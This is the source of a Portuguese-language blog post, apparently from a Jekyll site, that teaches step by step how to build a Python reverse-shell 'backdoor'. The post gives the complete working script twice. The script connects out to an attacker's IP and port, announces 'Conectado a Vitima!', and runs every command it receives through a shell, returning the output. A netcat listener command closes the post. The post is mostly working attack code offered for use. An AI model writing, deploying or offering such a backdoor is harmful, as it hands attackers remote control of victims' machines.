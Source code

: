 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDoor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDoor".

<dt>1. vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Antes de começar vamos definir 2 variáveis para a "Porta" é "IP" onde o backdor ira se conectar. </dt>

{% highlight python %}
# Seu Ip ou Ip externo 
HOST = '192.168.1.40'
# Sua porta  
PORT = 90
{% endhighlight %}

<dt>3. Agora temos que definir o tipo de socket, neste caso sera usado o socket do tipo TCP.</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
{% endhighlight %}

<dt>4. Aqui estamos conectando o socket no ip e porta que definimos acima.</dt>
{% highlight python %}
# Conectando ou Ip e a Porta 
s.connect((HOST, PORT))
{% endhighlight %}

<dt>5. Agora vamos enviar uma "mensagem para o servidor indicando que nos conectamos a ele."</dt>
{% highlight python %}
# Mensagem indicando que estamos conectado
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
{% endhighlight %}

<dt>6. Agora vamos criar um "loop" para recebermos comando externos de um servidor. </dt>
{% highlight python %}
while 1:
     data = s.recv(1024)
# Se dermos o comando "quit" paramos o loop 
     if data == "quit": break
# Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     stdout_value = proc.stdout.read() + proc.stderr.read() 
     s.send(stdout_value)
# Fechamos o socket 
s.close()
{% endhighlight %}

<dt> A qui abaixo esta os servidor já pronto é uma imagem dele conectado ao "NetCat"</dt>
{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
HOST = '192.168.1.40'    # Seu Ip ou No-Ip
PORT = 90                # Sua porta 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
while 1:     
     data = s.recv(1024)    
     if data == "quit": break
     # Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")     
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)     
     stdout_value = proc.stdout.read() + proc.stderr.read()
     s.send(stdout_value)
s.close()
{% endhighlight %}

<figure>
	<img src="{{ '/assets/img/socket.png' | prepend: site.baseurl }}" alt=""> 
	<dd>Usando o NetCat Exp:</dd>
	<figcaption>nc -vnlp "90" tem que ser a porta que definimos na variável "PORT" </figcaption>
</figure>





